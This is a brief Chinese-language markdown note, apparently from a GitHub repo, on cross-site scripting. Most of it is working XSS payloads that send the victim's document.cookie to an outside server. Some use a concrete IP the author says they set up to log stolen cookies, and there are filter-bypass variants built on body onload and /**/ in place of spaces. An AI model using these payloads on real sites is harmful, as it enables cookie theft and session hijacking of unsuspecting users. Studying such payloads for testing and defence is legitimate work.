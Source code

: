 # XSS远程执行漏洞

### 常用js语句
````

document.cookie				用于js获取当前网页的cookie值
window.location.href			 用于获取当前页面地址链接
window.location.href='www.baidu.com'	  用于相当于跳转地址

````

常用playload：

````
<script>window.location.href='http://[ip]/xss.php?cookie='+document.cookie</script>
````
     




### 我直接买了一个服务器并且开放了读写权限可以拿来实验XSS

````
相关的ip和playload
<script>window.location.href='http://106.53.207.220/xss.php?cookie='+document.cookie</script>


回显请看
http://106.53.207.220/cookie.txt
````


## 绕过

* 过滤script标签


````
<body onload="document.location.href='http://106.53.207.220/xss.php?xss='+document.cookie"></body>

````

* 过滤空格(使用tab、/**/来绕过)

````
<body/**/onload="document.location.href='http://106.53.207.220/xss.php?xss='+document.cookie"></body>

````








